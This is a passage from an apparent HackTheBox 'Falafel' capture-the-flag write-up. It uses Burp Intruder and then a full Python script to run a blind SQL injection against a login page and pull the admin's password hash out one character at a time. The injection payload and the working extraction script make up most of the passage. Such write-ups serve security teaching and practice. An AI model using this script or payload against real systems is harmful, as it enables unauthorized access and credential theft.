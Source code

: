 To make our life easier, we could put the "right" error string in the "Grep Match" section so that the request that matches as per our error will get marked.

![Grepping Error](/HackTheBox/htb-falafel-writeup-w-o-metasploit/8_sub_burp3.png)

We're now ready to "Start Attack"ing. Once we do, we soon find that the first character of the admins' hash is zero (0). We can now pause the attack since we already got what we needed from this injection.

![Getting The First Character](/HackTheBox/htb-falafel-writeup-w-o-metasploit/8_sub_burp4.png)

We were successfully able to leverage BurpSuite Intruder to extract the first character of admins' hash and can see that it is "0" (Zero).

##### Hash Extraction - Python Edition

*Note: Link to the scripts are at the bottom*

Although this is nice and we can perform a little more tweaking and get the entire hash, it would be a LOT faster if we whipped up a script of our own and got this done, which is what we will be doing now.

I wrote a script in python to get the admin's hash.

``` python
# Importing necessary library
import requests

# This function generates SQL injection payload to fetch the hash, for each index (i) and character (c) passed to the function
def SQLpayload(i,c):
    return "admin' AND substring(password,%s,1)='%s'-- -" % (i,c)


# All the characters in a hash
characters = 'abcdef0123456789'

password = '' # Blank password string

# Loop through every index position : 1 to 32
for i in range(1,33):
# Loop through every character in the "characters" for each index position
    for c in characters:
    # Defining a payload to be sent to the server
        payload = {'username':SQLpayload(i,c), 'password':'n00bsec'}
        # Sending a post request with the above payload and it's data and response is saved in "r"
        r = requests.post('http://10.10.10.73/login.php',data=payload)
        # Checking if "right" error is hit at an index for a character
        if "Wrong identification" in r.text:
        # If right error is hit, add the character to the password string
            password += c
            # Print the character on the screen without adding a "\n" - newline
            print(c,end='',flush=True)
            # No need to cycle through the rest of the characters if the "right" error is already hit for an index position
            break

# Print the hash
print('\nHash is:\t'+password+'\n')
```
